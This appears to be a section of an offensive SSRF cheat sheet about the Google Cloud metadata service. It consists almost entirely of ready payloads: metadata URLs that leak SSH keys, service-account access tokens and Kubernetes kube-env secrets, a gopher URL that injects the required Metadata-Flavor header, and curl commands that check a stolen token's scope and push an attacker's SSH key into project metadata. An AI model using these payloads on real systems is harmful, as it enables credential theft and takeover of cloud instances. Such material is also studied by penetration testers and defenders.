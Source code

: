 Google allows recursive pulls

```powershell
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

Required headers can be set using a gopher SSRF with the following technique

```powershell
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

Interesting files to pull out:

- SSH Public Key : `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
- Get Access Token : `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
- Kubernetes Key : `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`

#### Add an SSH key

Extract the token

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

Check the scope of the token

```powershell
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```

Now push the SSH key.

```powershell
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```
